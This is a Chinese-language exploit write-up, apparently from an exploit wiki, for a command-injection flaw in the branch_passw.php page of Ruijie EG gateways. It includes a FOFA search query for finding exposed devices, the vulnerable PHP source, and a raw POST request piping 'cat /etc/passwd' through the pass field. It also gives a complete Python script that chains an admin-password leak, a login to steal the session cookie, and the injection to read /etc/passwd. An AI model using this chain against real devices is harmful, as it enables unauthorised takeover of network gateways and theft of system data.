


# 锐捷 EG易网关 branch_passw.php 远程命令执行

## 漏洞描述

锐捷EG易网关 branch_passw.php存在命令执行漏洞，配合 锐捷EG易网关 管理员账号密码泄露漏洞 达到RCE控制服务器

## 漏洞影响

```
锐捷EG易网关
```

## FOFA

```
app="Ruijie-EG易网关"
```

## 漏洞复现

首先登录到后台中(可以组合 锐捷EG易网关 管理员账号密码泄露漏洞)

漏洞文件 branch_passw.php

```php
<?php

/**
 * 分支密码的统一管理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);  //定义系统目录分隔符
define('AROOT', dirname(__FILE__) . DS);    //定义入口所在的目录
include_once(dirname(dirname(__FILE__)) . DS . 'mvc' . DS . 'controller' . DS . 'core.controller.php');

class defaultController extends coreController {

    private $filename;
    private $cli = "evpn-server config all-clients file \"/data/evpn/cfg_pwd.text\"";

    function __construct() {
        parent::__construct();
        $this->filename = DS . "data" . DS . "evpn" . DS . "cfg_pwd.text";
    }

    /**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
    
    /**
     * 关闭集中控制功能
     */
    function closeAction(){
        evpnShell("/usr/local/evpn/server/cfg_pass.sh disable");
    }

    /**
     * 获取分支密码
     */
    function getAction() {
        $command = "/usr/local/evpn/server/echo_pass.sh";
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => isset($content[0]) && $content[0] === "" ? "" : $content);
        json_echo($data);
    }
    
    /**
     * 获取分支密码设置列表
     */
    function listAction(){
        $province = p("province");
        $city = p("city");
        $district = p("district");
        $shell = "/usr/local/evpn/server/sh_clients_pass.sh";
        if($province !== FALSE && $province != ""){
            $shell .= " province ".iconv("UTF-8", "GB2312//IGNORE", $province);
        }
        if($city !== FALSE && $city != ""){
            $shell .= " city ".iconv("UTF-8", "GB2312//IGNORE", $city);
        }
        if($district !== FALSE && $district != ""){
            $shell .= " district ".iconv("UTF-8", "GB2312//IGNORE", $district);
        }
        header("Content-type: text/html;charset=gbk");
        header("Cache-Control: no-cache, must-revalidate");
        header("Pragma: no-cache");
        echo `$shell`;
    }

}

include_once dirname(dirname(__FILE__)) . '/init.php';     //mvc架构初始化
```

其中漏洞部分

```php
/**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
```

&pass**变量可控并且无过滤执行命令使用 **|** 即可绕过

发送请求包

```plain
POST /itbox_pi/branch_passw.php?a=set HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 41
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

pass=|cat /etc/psswd>../test_test.txt
```

再访问

```plain
http://xxx.xxx.xxx.xxx/test_test.txt
```



## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 branch_passw.php 远程命令执行漏洞                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login.php"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'username=admin&password=admin?show+webmaster+user'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "data" in response.text and response.status_code == 200:
            password = re.findall(r'admin (.*?)"', response.text)[0]
            print("\033[36m[o] 成功获取, 账号密码为:  admin   {} \033[0m".format(password))
            POC_2(target_url, password)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_2(target_url, password):
    vuln_url = target_url + "/login.php"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'username=admin&password={}'.format(password)
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在登录..... \033[0m".format(target_url))
        if "status" in response.text and "1" in response.text and response.status_code == 200:
            ruijie_cookie = "RUIJIEID=" + re.findall(r"'Set-Cookie': 'RUIJIEID=(.*?);", str(response.headers))[0] + ";user=admin;"
            print("\033[36m[o] 成功获取管理员Cookie: {} \033[0m".format(ruijie_cookie))
            POC_3(target_url, ruijie_cookie)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_3(target_url, ruijie_cookie):
    vuln_url = target_url + "/itbox_pi/branch_passw.php?a=set"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Cookie": "{}".format(ruijie_cookie)
    }
    data = 'pass=|cat /etc/passwd>../test_test.txt'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 cat /etc/passwd..... \033[0m".format(target_url))
        if response.status_code == 200:
           POC_4(target_url, ruijie_cookie)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_4(target_url, ruijie_cookie):
    vuln_url = target_url + "/test_test.txt"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Cookie": "{}".format(ruijie_cookie)
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 cat /etc/passwd..... \033[0m".format(target_url))
        if "root:" in response.text and response.status_code == 200:
            print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

